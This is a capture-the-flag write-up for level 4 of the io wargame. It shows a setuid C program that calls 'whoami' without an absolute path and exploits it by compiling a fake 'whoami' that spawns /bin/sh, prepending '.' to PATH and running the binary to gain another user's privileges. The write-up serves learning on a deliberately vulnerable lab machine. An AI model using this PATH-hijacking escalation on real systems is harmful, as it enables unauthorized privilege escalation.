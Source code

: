 ## First look

```sh
level4@io:/levels$ ls -la level04*
-r-sr-x--- 1 level5 level4 5159 Dec 18  2013 level04
-r-sr-x--- 1 level5 level4 5180 Sep 24  2014 level04_alt
-r-------- 1 level4 level4  120 Sep 24  2014 level04_alt.c
-r-------- 1 level4 level4  245 Dec 18  2013 level04.c
```
There are 2 ways to go level5.

## level04.c
```C
//writen by bla
#include <stdlib.h>
#include <stdio.h>
int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);
        return 0;
}
```
In the above code, it is susceptible to an attack that changes the $PATH environment variable because it is not using an absolute path to call whoami. 

```sh
level4@io:/tmp/t$ echo $PATH
/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
The OS will look at $PATH for list of directories to search the binary for in a left to right order. When it finds a binary that has the requested name, it will execute that binary.

We can trick the OS into running our own `whoami` program that spawn a shell. As long as our directory comes before the actual location of `whoami`, our binary will be run instead.

```C
#include <stdlib.h>
int main(){
    system("/bin/sh");
    return 0;
}
```

```sh
level4@io:/levels$ mkdir /tmp/t;
```
We can make a directory for ourselves to put the above C source code.
```sh
level4@io:/tmp/t$ gcc whoami.c -o whoami
```
Next, compile the program with the same name as whoami.
```sh
level4@io:/tmp/t$ PATH=.:$PATH
level4@io:/tmp/t$ /levels/level04
sh-4.3$ id
Welcome uid=1004(level4) gid=1004(level4) euid=1005(level5) groups=1004(level4),1029(nosu)
```
We have prepended a "." in the $PATH. The OS will start searching from current directory first for a `whoami`. We can see that our euid is level5.

## level04_alt.c
```C
//written by bla
#include <stdlib.h>
int main(){
	setresuid(geteuid(), geteuid(), geteuid());
	system("/usr/bin/id");
}
```

The challenge is broken at the moment.

